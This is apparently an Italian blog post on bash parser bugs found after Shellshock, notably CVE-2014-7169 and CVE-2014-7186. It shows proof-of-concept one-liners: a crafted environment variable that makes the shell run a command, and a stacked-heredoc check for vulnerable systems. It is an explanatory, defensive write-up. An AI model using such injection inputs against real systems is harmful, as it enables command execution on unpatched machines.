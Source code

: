 Tavis Ormandy, mentre lavorava alla patch per il
[CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271),
ha trovato un altro bug nel parser della shell.

Prendete questo pezzo di codice.

{% highlight sh %}
env X='() { (a)=>\' sh -c "echo date"; cat echo
{% endhighlight %}

Sintatticamente non è corretta come definizione, infatti se osservate bene le
parentesi graffe non sono neppure bilanciate. La shell da un messaggio
d'errore, tuttavia il parser prende il codice 'sh -c "echo date"' ed esegue il
comando date mettendo l'output in un file chiamato _echo_.

Se provato a lanciare solo il pezzo aggiunto per attaccare la macchina, vedete
che il comporamento è quello atteso, ovvero "date" viene preso come parametro
del comando "echo" e quindi viene stampata la stringa "date" a video.

{% highlight sh %}
$ sh -c "echo date"
date
$
{% endhighlight %}

Il problema è nel parser della shell che invece interpreta "date" come un
comando da eseguire ed "echo" come nome del file da usare per redirigerne
l'output.

Lanciato sul mio **Mac** poco fa:

{% highlight sh %}
$ env X='() { (a)=>\' sh -c "echo date"; cat echo
sh: X: line 1: syntax error near unexpected token `='
sh: X: line 1: `'
sh: error importing function definition for `X'
Tue Sep 30 08:17:36 CEST 2014
$
{% endhighlight %}

### CVE-2014-7186 e CVE-2014-7187

Florian Weimer, un ricercatore [RedHat](http://www.redhat.com), mentre lavorava
alla patch per il
[CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271),
ha trovato non uno, ma due problematiche. Quando la shell si trova a gestire
più dichiarazioni come _<<EOF_ o _done_ permette di concatenare nello stack un
comando arbitrario a spazzatura, comando che ovviamente viene eseguito dalla
shell.

Un sistema vulnerabile a CVE-2014-7186, eseguendo questo codice, stamperà
"CVE-2014-7186 vulnerable, redir\_stack"

{% highlight sh %}
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' ||
echo "CVE-2014-7186 vulnerable, redir_stack"
{% endhighlight %}
